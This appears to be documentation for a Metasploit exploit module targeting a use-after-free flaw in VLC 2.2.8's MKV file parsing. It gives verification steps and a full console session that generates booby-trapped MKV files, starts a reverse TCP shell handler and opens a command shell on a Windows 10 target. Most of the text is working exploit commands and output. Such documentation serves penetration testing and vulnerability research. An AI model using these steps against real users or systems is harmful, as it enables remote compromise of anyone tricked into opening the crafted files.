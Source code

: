 ## Description

VideoLAN VLC <= v2.2.8 (32 and 64 bit) are vulnerable to a use-after-free vulnerability that exists in the parsing of MKV files.

This module has been tested against 32 and 64 bit versions of VLC v2.2.8 on Windows 10 Pro x64.

## Vulnerable Application

[VLC](https://get.videolan.org/vlc/) <= v2.2.8

## Verification Steps

- `./msfconsole -q`
- `use exploit/windows/fileformat/vlc_mkv`
- `run`
- Start handler
- Copy over mkv files to target hosts and open part1 in VLC
- Set a shell

## Scenarios

### Windows 10 x64 running VLC 2.2.8 (x64)

```
msf5 > use exploit/windows/fileformat/vlc_mkv
msf5 exploit(windows/fileformat/vlc_mkv) > set lhost 172.22.222.134 
lhost => 172.22.222.134
msf5 exploit(windows/fileformat/vlc_mkv) > run

[+] tjub-part1.mkv stored at /home/msfdev/.msf4/local/tjub-part1.mkv
[*] Created tjub-part1.mkv. Target should open this file
[+] tjub-part2.mkv stored at /home/msfdev/.msf4/local/tjub-part2.mkv
[*] Created tjub-part2.mkv. Put this file in the same directory as tjub-part1.mkv
[*] Appending blocks to tjub-part1.mkv
[+] Successfully appended blocks to tjub-part1.mkv
msf5 exploit(windows/fileformat/vlc_mkv) > handler -p windows/x64/shell/reverse_tcp -H 172.22.222.134 -P 4444
[*] Payload handler running as background job 0.
msf5 exploit(windows/fileformat/vlc_mkv) > 
[*] Started reverse TCP handler on 172.22.222.134:4444 
[*] Sending stage (336 bytes) to 172.22.222.200
[*] Command shell session 2 opened (172.22.222.134:4444 -> 172.22.222.200:49731) at 2018-10-10 12:08:58 -0500
sessions -i 2
[*] Starting interaction with 2...

systeminfo
systeminfo

Host Name:                 DESKTOP-IPOGIJR
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.17134 N/A Build 17134
```
